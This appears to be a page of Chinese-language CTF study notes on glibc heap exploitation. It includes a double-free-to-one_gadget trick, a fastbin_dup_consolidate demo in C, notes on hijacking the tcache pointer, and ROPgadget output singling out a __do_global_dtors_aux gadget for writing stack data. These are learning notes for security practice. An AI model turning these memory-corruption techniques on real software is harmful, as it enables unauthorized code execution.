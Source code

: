 	free(a)
	free(a)->dubble free->malloc
	通过两次free同一个chunk触发doublefree的error，这个error字符串的打印最终用到malloc，这个调用malloc的途径满足第三个one_gadget的约束。
### 0x3 fastbin_dup_consolidate
    #include <stdio.h>
    #include <stdint.h>
    #include <stdlib.h>
    
    int main() {
      void* p1 = malloc(0x40);
      void* p2 = malloc(0x40);
      fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
      fprintf(stderr, "Now free p1!\n");
      free(p1);
    
      void* p3 = malloc(0x400);
      fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
      fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
      free(p1);
      fprintf(stderr, "Trigger the double free vulnerability!\n");
      fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
      fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
    }


    void* p1 = malloc(0x40);
    void* p2 = malloc(0x40);
    free(p1);
    void* p3 = malloc(0x400); #触发malloc_consolidate fastbin 进入small bin
    free(p1); 进入fastbin，不会报错
0x4 libc tcache指针保存

    tcache在libc中以线程本地变量的形式保存，位于libc下面的段中（一般和libc的偏移固定），可以通过修改tcache内容劫持tcache分配
    可以通过
    （1）在malloc中打断点
    （2）search -p heap_ptr+0x10
    找到这个地址的位置

### 0x4 _do_global_dtors_aux中有一个gadgets可以修改stack上的数据，以达到可以代替64位的ret2_dl_runtime_resolve

bash
root@--name:/ctf/work/eonew/noleak# ROPgadget --binary no_leak | grep rbp
0x00000000004004b6 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004004b5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x0000000000400517 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x00000000004004a9 : je 0x4004c0 ; pop rbp ; mov edi, 0x601010 ; jmp rax
0x00000000004004eb : je 0x400500 ; pop rbp ; mov edi, 0x601010 ; jmp rax
0x0000000000400512 : mov byte ptr [rip + 0x200af7], 1 ; pop rbp ; ret
0x00000000004004b3 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004004f5 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400515 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004004ab : pop rbp ; mov edi, 0x601010 ; jmp rax
0x00000000004005cb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005cf : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004004b8 : pop rbp ; ret

0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret 这个gadget位于

_do_global_dtors_aux中 只要控制rbp和edx的值就可以任意修改栈上的数据
